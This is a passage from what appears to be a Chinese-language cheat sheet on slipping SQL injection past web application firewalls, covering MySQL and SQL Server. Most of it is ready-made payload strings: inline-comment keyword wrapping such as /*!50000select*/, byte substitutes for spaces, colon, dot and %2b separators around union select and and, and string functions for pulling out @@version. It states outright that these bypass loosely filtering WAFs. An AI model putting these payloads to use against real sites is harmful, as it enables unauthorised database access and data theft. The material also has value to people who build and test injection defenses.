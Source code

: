 	Ascii(1)
	Char(49)
	Hex(‘a’)
	Unhex(61)

4、/\*!50000keyword\*/替换

    任何关键字都可以用/*!50000keyword*/替换，例如：
    select name from user where id=1 union select user();
    select name from user where id=1 union/*!50000select*/user();
    select name from user where id=1 /*!50000union*/select user();
    select name from user where id=1 union select/*!50000user()*/;

---

#### 2.2.2 sqlserver数据库

##### 空格符的替换

空格符可使用以下符号替换：

	01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20 

##### 位置5/6的替换

1、:号

	1 union select:top 1 from

##### 位置7的替换：

1、.号

	1 union select xx from.table

2、:号

	1 union select xx from:table

##### and后的替换：

1、:号

	1 and:xx

2、%2b号

	1 and%2bxx

##### 其他

1、字符串截取函数

	Substring(@@version,1,1)
	Left(@@version,1)
	Right(@@version,1)

2、字符串转换函数

	Ascii(‘a’) 这里的函数可以在括号之间添加空格的，一些waf过滤不严会导致bypass
	Char(‘97’)

---

## 3 参考

* http://drops.wooyun.org/tips/7883
* http://drops.wooyun.org/tips/968
* https://www.exploit-db.com/papers/17934/
* http://drops.wooyun.org/tips/123